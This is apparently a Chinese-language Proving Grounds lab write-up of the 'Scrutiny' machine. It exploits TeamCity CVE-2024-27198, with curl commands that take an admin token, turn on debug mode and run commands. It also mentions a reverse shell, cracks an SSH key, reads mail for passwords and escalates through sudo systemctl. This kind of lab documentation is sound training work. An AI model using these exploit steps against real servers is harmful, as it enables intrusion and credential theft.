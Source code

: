```yaml
---

title: Proving Grounds Practice-Scrutiny
date: 2025-7-24 20:00:00
tags: 红队
categories: 红队打靶-Linux
---
```


# 信息收集

## nmap

![image-20250724115710123](./Scrutiny/image-20250724115710123.png)

# smtp

可以通过自动化工具来枚举用户

```
Metasploit: auxiliary/scanner/smtp/smtp_enum
```

![image-20250724134801972](./Scrutiny/image-20250724134801972.png)

# web



![image-20250724135019159](./Scrutiny/image-20250724135019159.png)

访问login页面会跳转到`teams.onlyrands.com`,将域名解析添加到`/etc/hosts`后就可以正常访问了

主域名为`onlyrands.com`子域名为`teams.onlyrands.com`

![image-20250724140157757](./Scrutiny/image-20250724140157757.png)

搜索存在的漏洞有很多，但是没有对应于2023.05.4这个版本存在的，都是一个版本范围内存在的漏洞，测试了好多测试到一个可以用的漏洞

[Stuub/RCity-CVE-2024-27198: CVE-2024-27198 & CVE-2024-27199 PoC - 远程代码执行，管理员账户创建，枚举用户，服务器信息](./https://github.com/Stuub/RCity-CVE-2024-27198?source=post_page-----01737dd96583---------------------------------------)

创建用户是成功的，可以用该用户登录到后台，但是命令执行的时候失败

![image-20250724155241436](./Scrutiny/image-20250724155241436.png)

![image-20250724155248951](./Scrutiny/image-20250724155248951.png)

这个报错就是没有启动调试模式，要开启debug模式要追溯到这篇wp

[HTB: Runner | 0xdf 黑客攻击东西 --- HTB: Runner | 0xdf hacks stuff](./https://0xdf.gitlab.io/2024/08/24/htb-runner.html?source=post_page-----01737dd96583---------------------------------------)

先用生成的账号拿到token

![image-20250724162531510](./Scrutiny/image-20250724162531510.png)

```
curl -X POST http://teams.onlyrands.com/app/rest/users/id:24/tokens/RPC2 -u RCity_Rules_619:0JaCmxDO
```

![image-20250724162514272](./Scrutiny/image-20250724162514272.png)

```
export TOKEN="eyJ0eXAiOiAiVENWMiJ9.WElPbTl6UTJ3Qkc5RlJ6aXJjeUJMRlZ4MFhZ.OTFiMDQ2Y2QtNzVkMy00NGQ5LTg4NjItYjc3NzFiYmZhOTI2"
```

打开bebug模式

```
curl -X POST 'http://teams.onlyrands.com/admin/dataDir.html?action=edit&fileName=config%2Finternal.properties&content=rest.debug.processes.enable=true' -H "Authorization: Bearer $TOKEN"
```

用这个来刷新服务器

```
curl 'http://teams.onlyrands.com/admin/admin.html?item=diagnostics&tab=dataDir&file=config/internal.properties' -H "Authorization: Bearer $TOKEN"
```

然后就可以成功命令执行了

```
curl -X POST 'http://teams.onlyrands.com/app/rest/debug/processes?exePath=id' -H "Authorization: Bearer $TOKEN"
```

![image-20250724163435234](./Scrutiny/image-20250724163435234.png)

可以使用之前的exp来执行命令，使用perl的反向shell可以成功反弹shell

![image-20250724164528539](./Scrutiny/image-20250724164528539.png)

![image-20250724164545853](./Scrutiny/image-20250724164545853.png)

当前用户的根目录下就有local.txt

# 提权

在projects这里还可以发现有提交一个id_rsa

![image-20250724171814778](./Scrutiny/image-20250724171814778.png)

使用私钥连接也需要密码

![image-20250724173601866](./Scrutiny/image-20250724173601866.png)

使用ssh2john可以快速破解，密码为cheer

![image-20250724173636073](./Scrutiny/image-20250724173636073.png)

![image-20250724173856541](./Scrutiny/image-20250724173856541.png)

在git用户目录下还可以看到有其他用户，我们现在得到了marcot用户的凭证

![image-20250724173817707](./Scrutiny/image-20250724173817707.png)

查看可读目录，发现/var/mail，下面是各个用户的邮件，每个人的邮件只有自己才可以读，我们读取marcot用户的

![image-20250724174618845](./Scrutiny/image-20250724174618845.png)

![image-20250724174730753](./Scrutiny/image-20250724174730753.png)

其中有一个密码，是来自matthewa用户的

![image-20250724175118835](./Scrutiny/image-20250724175118835.png)

```
IdealismEngineAshen476
```

![image-20250724175421324](./Scrutiny/image-20250724175421324.png)

打印`matthewa`用户根目录下的内容可以发现`Dach`的密码

![image-20250725101217295](./Scrutiny/image-20250725101217295.png)

```
RefriedScabbedWasting502
```

Dach就是用户`briand`

![image-20250725101605342](./Scrutiny/image-20250725101605342.png)

briand用户有systemctl的sudo权限，按照GTFOBins中的方法就可以提权

![image-20250725101728824](./Scrutiny/image-20250725101728824.png)

![image-20250725102550175](./Scrutiny/image-20250725102550175.png)

![image-20250725102542406](./Scrutiny/image-20250725102542406.png)